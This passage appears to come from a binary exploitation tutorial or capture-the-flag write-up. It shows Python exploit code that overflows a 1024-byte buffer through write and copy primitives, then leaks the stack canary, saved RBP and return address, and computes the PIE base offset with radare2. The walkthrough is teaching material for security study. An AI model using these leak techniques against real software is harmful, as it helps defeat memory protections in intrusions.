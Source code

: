 
### Leaking Canary and PIE

Now let's try writing 3 times then copying a massive amount.

```python
write('A' * 0xff)
write('B' * 0xff)
write('C' * 0xff)
copy(start=0xff*3, length=250)
print(read())
```

Well, we've leaked significantly more than the stuff we wrote, that's for sure. Let's _completely_ fill up the buffer, so we can work with the stuff after it. The buffer size is `1024` bytes, plus another 8 for the saved RBP.

```python
write('A' * 0xff)       # 255
write('B' * 0xff)       # 510
write('C' * 0xff)       # 765
write('D' * 0xff)       # 1020
write('E' * 4)          # 1024
copy(start=1024, length=32)

leaks = read()[1024:]

addrs = [u64(leaks[addr:addr+8]) for addr in range(0, len(leaks), 8)]
[print(hex(addr)) for addr in addrs]
```

```text
0x7ffe9d91bbe0
0xdc185629f84e5a00            canary
0x7ffe9d91bbe0                rbp
0x565150b24f54                rip
```

Now we've successfully leaked, we can parse the values. Using radare2 and breaking on the `ret`, the offset between the leaked RIP value there and binary base is `0xf54`:

![](../../.gitbook/assets/image%20%2816%29.png)
